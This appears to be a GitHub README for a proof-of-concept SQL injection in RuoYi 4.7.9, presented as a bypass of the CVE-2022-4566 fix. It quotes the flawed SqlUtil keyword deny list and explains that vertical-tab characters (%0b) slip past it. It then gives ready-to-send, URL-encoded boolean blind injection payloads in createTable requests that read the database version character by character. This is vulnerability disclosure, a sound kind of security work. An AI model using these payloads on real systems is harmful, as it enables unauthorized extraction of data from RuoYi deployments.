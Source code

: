 # Ruoyi-4.7.9-SQL-Injection-PoC
## Introduction
This is a bypass of CVE-2022-4566, due to insufficient validation in `ruoyi-common/src/main/java/com/ruoyi/common/utils/sql/SqlUtil.java` . The regex can be bypass by using `%0b` instead of spaces, this results in SQL Injection.

```java
public class SqlUtil
{
    /**
     * 定义常用的 sql关键字
     */
    public static String SQL_REGEX = "and |extractvalue|updatexml|sleep|exec |insert |select |delete |update |drop |count |chr |mid |master |truncate |char |declare |or |union |like |+|/*|user()";
    public static void filterKeyword(String value)
    {
        if (StringUtils.isEmpty(value))
        {
            return;
        }
        String[] sqlKeywords = StringUtils.split(SQL_REGEX, "\\|");
        for (String sqlKeyword : sqlKeywords)
        {
            if (StringUtils.indexOfIgnoreCase(value, sqlKeyword) > -1)
            {
                throw new UtilException("参数存在SQL注入风险");
            }
        }
    }
}
```
## Steps to reproduce Boolean SQL Injection
1. Log in as admin
2. Send createTable request   
   a. Inject a TRUE query: `sql=CREATE%20table%20j2iz96_666%20as%20SELECT%0b111%20FROM%20sys_job%20WHERE%201%3d0%20AND%0bIF(ascii(substring((select%0b%40%40version)%2c18%2c1))%3d45%2c%201%2c%201%2f0)%3b`
   ![true-query](https://github.com/user-attachments/assets/56d95c1b-409e-4bdc-8247-beabb2dadeae)
   b. Inject a FALSE query: `sql=CREATE%20table%20j2iz96_665%20as%20SELECT%0b111%20FROM%20sys_job%20WHERE%201%3d0%20AND%0bIF(ascii(substring((select%0b%40%40version)%2c5%2c1))%3d44%2c%201%2c%201%2f0)%3b`
   ![false-query](https://github.com/user-attachments/assets/308fba92-18b8-44ce-befa-584e5265cdae)
**Caution**:  Need to change tablename in the CREATE query after every successful query.




